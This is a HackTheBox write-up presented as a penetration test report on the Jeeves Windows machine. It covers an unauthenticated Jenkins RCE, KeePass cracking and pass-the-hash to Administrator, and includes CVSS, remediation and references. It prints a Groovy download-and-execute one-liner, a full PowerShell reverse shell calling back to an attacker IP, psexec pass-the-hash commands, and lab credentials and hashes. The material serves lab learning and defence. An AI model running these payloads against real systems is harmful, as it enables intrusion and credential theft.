# Jeeves — HackTheBox Report

| Difficulty | OS      | Category         |
| ---------- | ------- | ---------------- |
| Medium     | Windows | Web / Windows    |

> Writeup of a retired Jeeves machine, published for educational/portfolio purposes.
---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. Web Enumeration — Port 80](#12-web-enumeration--port-80)
  * [1.3. Directory Brute-Forcing — Port 50000](#13-directory-brute-forcing--port-50000)
  * [1.4. Jenkins Discovery](#14-jenkins-discovery)
  * [2.1. Foothold via Jenkins Script Console](#21-foothold-via-jenkins-script-console)
  * [2.2. User Flag](#22-user-flag)
  * [3.1. KeePass Database Discovery](#31-keepass-database-discovery)
  * [3.2. Cracking the KeePass Database](#32-cracking-the-keepass-database)
  * [3.3. Credential Extraction](#33-credential-extraction)
  * [3.4. Pass-the-Hash as Administrator](#34-pass-the-hash-as-administrator)
  * [3.5. Root Flag via Alternate Data Stream](#35-root-flag-via-alternate-data-stream)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Jeeves / IP: 10.129.228.112` **Platform:** `HackTheBox` **Date Completed:** `October 1, 2026` **Assessment Type:** `Web Application / Windows Host` **Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was engaged to conduct a simulated attack against the HackTheBox Jeeves environment. The test was carried out from the perspective of a complete outsider with no prior access, credentials, or knowledge of the environment.

The results are serious. Our team was able to gain full administrative control of the target server, starting from a position of zero access. In a real-world scenario, this would allow an attacker to read all data on the system, install software, create or take over accounts, and cause significant operational disruption, all without physical access to any device.

Four security issues made this possible. They relate to an administrative automation tool (Jenkins) left exposed on a hidden port with no authentication, allowing arbitrary commands to be run on the server; a password database left on a user's machine and protected only by a weak password that was cracked in seconds; the reuse of a recovered administrator password to take over the most powerful account on the system; and the ability for an attacker to hide and retrieve the final sensitive data in a location that ordinary inspection would miss.

The overall risk is rated **Critical**. The actions outlined in the Remediation Summary section of this report should be treated as an immediate priority.

---

## Scope

| Host / URL / IP Address        | Description                                        |
| ------------------------------ | ------------------------------------------------- |
| `10.129.228.112`               | Target machine — Windows host (`JEEVES`)           |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.
---

## Approach / Methodology

1. **Reconnaissance** — active port and service discovery against the target.
2. **Scanning & Enumeration** — web content review, SQL injection testing, and directory brute-forcing to uncover hidden applications.
3. **Vulnerability Analysis** — identifying an unauthenticated Jenkins instance, a weakly protected credential store, and a reused administrator password.
4. **Exploitation** — remote code execution via the Jenkins Groovy Script Console for initial foothold.
5. **Privilege Escalation** — cracking a KeePass database and performing a pass-the-hash attack as Administrator.
6. **Post-Exploitation** — validating full administrative access, recovering a flag hidden in an NTFS Alternate Data Stream, and documenting impact.

---

## Tools Used

| Tool              | Purpose                                                         |
| ----------------- | -------------------------------------------------------------- |
| `Nmap`            | Port scanning and service enumeration                          |
| Web browser       | Reviewing web content and SQL injection error behaviour        |
| `Gobuster`        | Directory brute-forcing on the Jetty service (port 50000)      |
| Jenkins Script Console | Arbitrary Groovy / PowerShell execution for RCE          |
| `netcat`          | Reverse shell listener                                         |
| PowerShell        | Post-exploitation enumeration and reverse shell payload        |
| `keepass2john`    | Extracting the crackable hash from the KeePass database        |
| `John the Ripper` | Dictionary-based cracking of the KeePass master password       |
| `KeePassXC`       | Opening the decrypted KeePass database and reading credentials |
| `NetExec (nxc)`   | Validating the recovered Administrator NT hash over SMB         |
| `impacket-psexec` | Pass-the-hash remote command execution as Administrator        |

---

## Assessment Summary (Findings Overview)

Starting from a completely unauthenticated position, directory brute-forcing revealed a Jenkins automation server exposed with no authentication on a non-standard port. Its Groovy Script Console was abused to execute a PowerShell reverse shell, providing an initial foothold as the `kohsuke` user. A KeePass password database was discovered in that user's documents and cracked using a weak master password present in a common wordlist. The database contained the local Administrator's NT hash, which was reused in a pass-the-hash attack to gain full administrative control. The final flag was recovered from an NTFS Alternate Data Stream. The overall risk is assessed as **Critical**.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 1     |
| High          | 1     |
| Medium        | 1     |
| Low           | 1     |
| Informational | 0     |

| # | Severity | Finding Name                                                        |
| --- | -------- | ------------------------------------------------------------------ |
| 1 | Critical | Unauthenticated Jenkins Script Console Enabling Remote Code Execution |
| 2 | High     | Reused Administrator Credentials Enabling Pass-the-Hash Takeover    |
| 3 | Medium   | Weakly Protected KeePass Credential Database                        |
| 4 | Low      | Verbose SQL Error Messages Disclosing Backend Information           |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to full administrative compromise, step by step, with commands and evidence. Lab IPs and credentials are shown as this is a retired HTB machine, published for educational and portfolio purposes.

### 1.1. Reconnaissance

```
sudo nmap 10.129.228.112 -p- -sC -sV -Pn
```

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
```

**Findings:** The target is a Windows host (`JEEVES`) exposing the following services:

| Port   | Service       | Significance                                                        |
| ------ | ------------- | ------------------------------------------------------------------ |
| 80     | IIS HTTP      | "Ask Jeeves" web application — primary web surface                  |
| 135    | MSRPC         | Windows RPC                                                         |
| 445    | SMB           | File sharing — note: SMB message signing disabled                  |
| 50000  | Jetty HTTP    | Non-standard web server (Jetty) — frequently fronts Java apps      |

The Jetty server on the non-standard port 50000 is immediately interesting, as Jetty commonly serves Java-based applications such as Jenkins. SMB message signing being disabled was also noted as a potential weakness.

---

### 1.2. Web Enumeration — Port 80

The web application on port 80 presents an "Ask Jeeves" search page:

[](./images/port_80.png)

Submitting a single quote (`'`) into the search function triggered a verbose server error, indicating the input is passed into a backend SQL query:

```
'
```

[](./images/sqlierror.png)

**Findings:** The application returns a detailed ASP.NET exception disclosing the backend database (Microsoft SQL Server 2005), internal source file paths (`c:\webroot\Sock_Puppets\...`), and a stack trace. While the input reaches a SQL query, repeated UNION-based injection attempts simply returned the same `error.html?` page and did not yield a usable injection, so this avenue was deprioritized in favor of the Jetty service. The verbose errors nonetheless represent an information-disclosure weakness (Finding #4).

---

### 1.3. Directory Brute-Forcing — Port 50000

The Jetty service on port 50000 returned a 404 at its root, so it was brute-forced for hidden content:

```
gobuster dir -u http://10.129.228.112:50000/ -w DirBuster-2007_directory-list-lowercase-2.3-medium.txt
```

[](./images/port50000dirbusting.png)

**Findings:** Gobuster discovered the `/askjeeves` path, which returned a 302 redirect — a strong indication of a hosted application behind it.

---

### 1.4. Jenkins Discovery

Browsing to `http://10.129.228.112:50000/askjeeves/` revealed a fully accessible **Jenkins** automation server — version 2.87 — requiring no authentication:

[](./images/jenkins.png)

**Findings:** The Jenkins instance is completely unauthenticated — anyone who can reach the port has full administrative access to the Jenkins dashboard, including management functions. Jenkins exposes a Groovy Script Console that runs arbitrary code on the underlying server, making this an immediate and severe remote code execution vector.

---

### 2.1. Foothold via Jenkins Script Console

Jenkins provides a Groovy Script Console (`/askjeeves/script`) that executes arbitrary code on the server with the privileges of the Jenkins service account. A Groovy one-liner was used to download and execute a PowerShell reverse shell:

[](./images/scriptconsole.png)

```
def cmd = 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.15.85:8080/shell.ps1\')"'
def process = cmd.execute()
println process.text
```

The reverse shell payload was hosted on a simple HTTP server, with a netcat listener waiting for the connection:

```
cat > shell.ps1 << 'EOF'
$client = New-Object System.Net.Sockets.TCPClient('10.10.15.85',4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
EOF

sudo python3 -m http.server 8080
nc -lvnp 4444
```

**Result:** A reverse shell connected back as `jeeves\kohsuke`, providing an interactive foothold on the host.

---

### 2.2. User Flag

```
whoami
type c:\users\kohsuke\desktop\user.txt
```

[](./images/userflag.png)

**user.txt:** `e3232272596fb47950d59c4cf1e7066a`

---

### 3.1. KeePass Database Discovery

Enumerating the `kohsuke` user's profile revealed a KeePass password database in the Documents folder:

```
cd C:\users\kohsuke\Documents
dir
```

[](./images/keepassdatabase.png)

**Findings:** A KeePass database, `CEH.kdbx`, was present. KeePass databases store collections of credentials and are a high-value target. The file was exfiltrated for offline cracking by Base64-encoding it in the shell and decoding it locally:

```
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\users\kohsuke\Documents\CEH.kdbx"))
```

```
echo '<base64 blob>' | base64 -d > database.kdbx
```

---

### 3.2. Cracking the KeePass Database

The database's master password hash was extracted with `keepass2john` and cracked with John the Ripper against the `rockyou.txt` wordlist:

```
keepass2john database.kdbx > keepass.hash
john keepass.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

[](./images/passwdtokeepassdatabase.png)

**Master password recovered:** `moonshine1`

---

### 3.3. Credential Extraction

With the master password known, the database was opened in KeePassXC:

```
sudo apt install keepassxc
keepassxc database.kdbx
```

[](./images/credentialskeepass.png)

The "Backup stuff" entry contained what proved to be the most valuable item — an NTLM hash pair rather than a plaintext password:

[](./images/credentialsfromdatabase.png)

**Findings:** The database contained a number of credentials, the most significant being a stored NTLM hash in the "Backup stuff" entry:

```
?:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
admin:F7WhTrSFDKB6sxHU1cUn
administrator:S1TjAtJHKsugh9oC4VZl
anonymous:Password
bob:lCEUnYPjNfIuPZSzOySA
hackerman123:pwndyouall!
Michael321:12345
```

---

### 3.4. Pass-the-Hash as Administrator

The stored NT hash from the "Backup stuff" entry was validated against the host over SMB using NetExec:

```
nxc smb 10.129.228.112 -u administrator -H e0fb1fb85756c24235ff238cbe81fe00
```

[](./images/hashforadmin.png)

**Findings:** The hash authenticated successfully as `Jeeves\administrator` (indicated by `Pwn3d!`), confirming it is the local Administrator's NT hash and that it can be reused directly without cracking. A full pass-the-hash session was then opened with Impacket's `psexec`:

```
impacket-psexec -hashes :e0fb1fb85756c24235ff238cbe81fe00 administrator@10.129.228.112
dir C:\Users\Administrator\Desktop
type hm.txt
```

[](./images/crypticmessages.png)

**Result:** A SYSTEM-level shell was obtained as Administrator. The Administrator's Desktop contained a file, `hm.txt`, whose contents read "The flag is elsewhere. Look deeper." — indicating the real flag was hidden rather than stored normally.

---

### 3.5. Root Flag via Alternate Data Stream

The hint pointed toward an NTFS **Alternate Data Stream (ADS)** — a feature of the NTFS file system that allows additional hidden data to be attached to a file without being visible through normal directory listings. The hidden stream attached to `hm.txt` was read directly:

```
dir /r C:\Users\Administrator\Desktop
more < C:\Users\Administrator\Desktop\hm.txt:root.txt
```

[](./images/rootflag.png)

**Result:** The root flag was stored in an Alternate Data Stream named `root.txt` attached to `hm.txt`, confirming full compromise of the host.

**root.txt:** `afbc5bd4b615a60648cec41c6ac92530`

> **Alternate Data Streams (ADS)** is a feature of the **NTFS file system** on Windows that lets additional data be hidden inside a file without it being visible through normal means such as `type` or a standard `dir` listing. The `dir /r` switch reveals streams, and they can be read with `more < file:stream`.

---

## Technical Findings Details

### 1. Unauthenticated Jenkins Script Console Enabling Remote Code Execution — Critical

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-306: Missing Authentication for Critical Function / CWE-94: Improper Control of Generation of Code ('Code Injection')                                                                                 |
| **CVSS 3.1 Score**                 | 9.8 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`                                                                                                                                          |
| **Description (Incl. Root Cause)** | A Jenkins automation server (version 2.87) was exposed on port 50000 under the `/askjeeves` path with no authentication configured. Jenkins includes a Groovy Script Console that executes arbitrary code on the underlying host with the privileges of the Jenkins service account. Because the instance required no login, any unauthenticated attacker able to reach the port could run arbitrary commands. The root cause is an administrative tool deployed without authentication and reachable without restriction. |
| **Security Impact**                | Complete remote code execution on the server as the `kohsuke` user without any credentials. This was the initial foothold and the single most severe issue in the assessment, directly enabling every subsequent step. |
| **Affected Host(s)**               | `10.129.228.112:50000` (Jenkins at `/askjeeves/script`)                                                                                                                                                  |
| **Remediation**                    | - Enable authentication and authorization in Jenkins immediately (enable security, require login, and apply a least-privilege authorization strategy) — Restrict network access to the Jenkins port so it is not reachable by untrusted clients — Disable or tightly restrict access to the Groovy Script Console to administrators only — Keep Jenkins and its plugins fully up to date, as 2.87 is significantly outdated |
| **References**                     | [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) · [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html) · [Jenkins Security — Access Control](https://www.jenkins.io/doc/book/security/) |

**Evidence:**

```
# Jenkins discovered unauthenticated:
gobuster dir -u http://10.129.228.112:50000/ -w DirBuster-2007_directory-list-lowercase-2.3-medium.txt
# /askjeeves (Status: 302)

# RCE via Groovy Script Console:
def cmd = 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.15.85:8080/shell.ps1\')"'
def process = cmd.execute()
println process.text
# Reverse shell returned as jeeves\kohsuke
```

`Screenshot jenkins.png: unauthenticated Jenkins 2.87 dashboard` `Screenshot scriptconsole.png: Groovy Script Console executing the reverse shell payload` `Screenshot userflag.png: reverse shell as jeeves\kohsuke`

---

### 2. Reused Administrator Credentials Enabling Pass-the-Hash Takeover — High

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-522: Insufficiently Protected Credentials / CWE-294: Authentication Bypass by Capture-replay                                                                                                          |
| **CVSS 3.1 Score**                 | 8.8 (High) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                                                                                                                              |
| **Description (Incl. Root Cause)** | The local Administrator's NTLM hash was stored in the KeePass database recovered from the `kohsuke` user's Documents (Finding #3). Because Windows NTLM authentication accepts the hash directly, the hash could be replayed to authenticate as Administrator without ever cracking it to plaintext — a pass-the-hash attack. The root cause is the storage of a reusable privileged credential (the Administrator NT hash) in a location accessible to a lower-privileged user, combined with NTLM's susceptibility to hash replay. |
| **Security Impact**                | Full administrative (SYSTEM-level) control of the host was obtained by replaying the stored hash, escalating from the low-privileged `kohsuke` foothold to complete compromise. |
| **Affected Host(s)**               | `10.129.228.112:445` — local `administrator` account                                                                                                                                                     |
| **Remediation**                    | - Never store privileged credentials or hashes in password databases accessible to standard users; isolate administrative credentials in a dedicated privileged-access-management solution — Rotate the Administrator password/hash immediately, as it has been disclosed — Enforce SMB signing and consider disabling NTLM in favor of Kerberos to mitigate pass-the-hash — Apply least privilege and credential-tiering so that a user-level compromise cannot reach Administrator credentials |
| **References**                     | [MITRE ATT&CK: T1550.002 — Use Alternate Authentication Material: Pass the Hash](https://attack.mitre.org/techniques/T1550/002/) · [MITRE ATT&CK: T1555 — Credentials from Password Stores](https://attack.mitre.org/techniques/T1555/) · [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html) |

**Evidence:**

```
# Hash validated over SMB:
nxc smb 10.129.228.112 -u administrator -H e0fb1fb85756c24235ff238cbe81fe00
# Jeeves\administrator (Pwn3d!)

# Pass-the-hash shell:
impacket-psexec -hashes :e0fb1fb85756c24235ff238cbe81fe00 administrator@10.129.228.112
```

`Screenshot credentialsfromdatabase.png: NTLM hash stored in the KeePass "Backup stuff" entry` `Screenshot hashforadmin.png: NetExec confirming the hash authenticates as administrator (Pwn3d!)` `Screenshot crypticmessages.png: psexec SYSTEM shell as Administrator`

---

### 3. Weakly Protected KeePass Credential Database — Medium

| Field                              | Details                                                                                                                                                                                                  |
| ---------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-521: Weak Password Requirements                                                                                                                                                                      |
| **CVSS 3.1 Score**                 | 6.5 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                            |
| **Description (Incl. Root Cause)** | The `CEH.kdbx` KeePass database stored in the `kohsuke` user's Documents was protected by the master password `moonshine1`, which is present in the publicly available `rockyou.txt` wordlist. After the database was exfiltrated, `keepass2john` and John the Ripper recovered the master password in roughly 22 seconds. A password database provides meaningful protection only if its master password is strong enough to resist offline cracking. |
| **Security Impact**                | The weak master password gave an attacker access to every credential inside the database — including the Administrator NT hash that led directly to full compromise (Finding #2). It is the pivot between the user foothold and administrative takeover. |
| **Affected Host(s)**               | `10.129.228.112` — `C:\Users\kohsuke\Documents\CEH.kdbx`                                                                                                                                                 |
